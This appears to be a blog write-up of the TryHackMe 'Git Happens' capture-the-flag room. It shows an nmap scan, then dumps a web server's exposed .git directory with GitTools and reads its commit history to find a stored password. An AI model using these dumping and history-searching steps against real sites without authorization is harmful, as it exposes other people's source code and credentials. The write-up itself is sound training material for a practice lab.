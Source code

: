 ```yaml
---
layout: post
title: Git Happens Writeup
subtitle: Can you find the password to the application?
thumbnail-img: /leiz95/assets/img/githappenslogo.png
# cover-img: 
# gh-badge: [star, fork, follow]
tags: [ctf,tryhackme, writeup, git]
# comments: true
---
```


Boss wanted me to create a prototype, so here it is! We even used something called ***version control*** that made deploying this really easy!


## Here is a machine information

| Title | Git Happens | 
| :------ |:--- | 
| Difficulty | Easy | 
| Point | 80 |
| Maker | Hydragyrum |
| Infor | This is a free room, which means anyone can deploy virtual machines in the room  | 


## NMAP
We have an IP as usual, and we can start with the basic nmap scan

```bash
nmap -sC -sV -A machine-ip 
```
<em>

-A : Os detection, version detection, traceroute

-sS : TCP syn scan ( for faster scan, needs root privilege )

-o : For storing output in file
</em>

After finishing scan with nmap, we got the result as tcp (80) is open and more interesting directory was found is *.git*

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 02:35 EDT
Nmap scan report for 10.10.242.228
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.242.228:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## What can we do with .git  directory?

i tryed to access the .git directory via *http://machine-ip/.git*

![.git directory](/leiz95/assets/img/.git.png)

In order to get the contents of the directory, I used this.
My favorite search engine is [GitTool](https://github.com/internetwache/GitTools)
After clone this tool. 

firstly, we need to dump all the file by cmd 

```bash
./gitdumper.sh http://machine-ip/.git/ gitdump
```
Then  extract it.
```bash
./extractor.sh /gitdump /extractor
```
After finish all the dump and extract. i got this.

![extractor](/leiz95/assets/img/extract.png)

In order to get all the files in the previous commits, we run this command

```bash
git checkout .
```
we got all files: 

![extractor](/leiz95/assets/img/extractall.png)

## Getting the password 

Nomally, when we have the git file. we should run cmd 

```bash
git log
```
![gitlog](/leiz95/assets/img/gitlog.png)

We can go through all the modification file by run:

```bash
git show bc8054d9d95854d278359a432b6d97c27e24061d
```
We can see all the file change in this commit.
We go through all commit with this command. 
in the ***e56eaa8e29b589976f33d76bc58a0c4dfb9315b1*** object. 
 
![result](/assets/img/result.png)

Yeah, we got the password now !!!!

Another way, it will not waste your time to  much by run:

 ```bash
 git log | grep commit | cut -d " " -f2 | xargs git show 
```

This will real all the changed files.
